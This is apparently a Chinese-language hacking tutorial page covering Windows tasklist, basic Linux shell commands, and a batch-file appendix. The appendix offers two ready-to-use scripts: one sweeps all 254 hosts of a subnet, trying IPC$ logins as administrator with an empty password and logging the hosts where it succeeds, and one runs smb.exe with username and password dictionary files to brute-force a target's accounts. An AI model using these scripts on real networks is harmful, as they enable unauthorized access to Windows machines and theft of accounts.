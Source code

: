  tasklist 显示当前运行在本地和远程主机上的进程、服务、服务各进程的进程标识符(PID)。 参数说明：/M 列出当前进程加载的dll文件，/SVC 显示出每个进程对应的服务，无参数时就只列出当前的进程。

 

 Linux系统下基本命令：

 要区分大小写 uname 显示版本信息（同win2K的 ver）

 dir 显示当前目录文件,ls -al 显示包括隐藏文件（同win2K的 dir）  

 pwd 查询当前所在的目录位置

 cd cd ..回到上一层目录，注意cd 与..之间有空格。cd /返回到根目录。

 cat 文件名 查看文件内容 cat >abc.txt 往abc.txt文件中写上内容。

 more 文件名 以一页一页的方式显示一个文本文件。

 cp 复制文件 mv 移动文件 rm 文件名 删除文件，rm -a 目录名删除目录及子目录

 mkdir 目录名 建立目录 rmdir 删除子目录，目录内没有文档。 chmod 设定档案或目录的存取权限 grep 在档案中查找字符串 diff 档案文件比较 find 档案搜寻 date 现在的日期、时间

 who 查询目前和你使用同一台机器的人以及Login时间地点 w 查询目前上机者的详细资料 whoami 查看自己的帐号名称 groups 查看某人的Group passwd 更改密码 history 查看自己下过的命令 ps 显示进程状态 kill 停止某进程 gcc 黑客通常用它来编译C语言写的文件 su 权限转换为指定使用者

 telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。 ftp ftp连接上某服务器（同win2K）

 

 附：批处理命令与变量

 1：for命令及变量 基本格式： FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。 批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use $">\\ip\ipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3 (set):指定一个或一组文件，可使用通配符，如：(D:\user.txt)和(1 1 254)(1 -1 254),{“(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1} command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开 command_parameters：为特定命令指定参数或命令行开关 IN (set)：指在(set)中取值；DO command ：指执行command 参数：/L 指用增量形式{(set)为增量形式时}；/F 指从文件中不断取值，直到取完为止{(set)为文件时，如(d:\pass.txt)时}。 用法举例： @echo off echo 用法格式：test.bat *.*.* > test.txt for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \\%1.%%G /user:administrator | find "命令成功完成" >>test.txt 存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。 /L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。 @echo off echo 用法格式：ok.bat ip FOR /F %%i IN (D:\user.dic) DO smb.exe %1 %%i D:\pass.dic 200 存为：ok.exe 说明：输入一个IP后，用字典文件d:\pass.dic来暴解d:\user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。

 